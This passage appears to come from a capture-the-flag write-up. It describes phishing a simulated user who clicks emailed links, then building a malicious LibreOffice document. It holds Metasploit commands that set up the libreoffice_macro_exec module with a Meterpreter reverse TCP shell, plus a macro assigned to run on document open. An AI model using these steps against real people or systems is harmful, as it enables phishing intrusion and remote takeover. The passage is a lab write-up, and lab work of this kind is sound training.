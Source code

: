 Ok that's a 200, nice.
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.11.225 - - [13/Aug/2023 20:14:00] "GET /index.html HTTP/1.1" 200 -
```

Ok so Jocelyn is reading our emails and clicking on our links, so I guess, what's left to do now is the `bad.odt`

Trying the msf module my payload gets downloaded, but I don't get a meterpreter callback
```bash
msf6 > use exploit/multi/fileformat/libreoffice_macro_exec
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > set TARGET Linux
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > set LHOST tun0
msf6 exploit(multi/fileformat/libreoffice_macro_exec) > exploit
```

Created the macro and assigned to open document:  
![macro.png](macro.png)  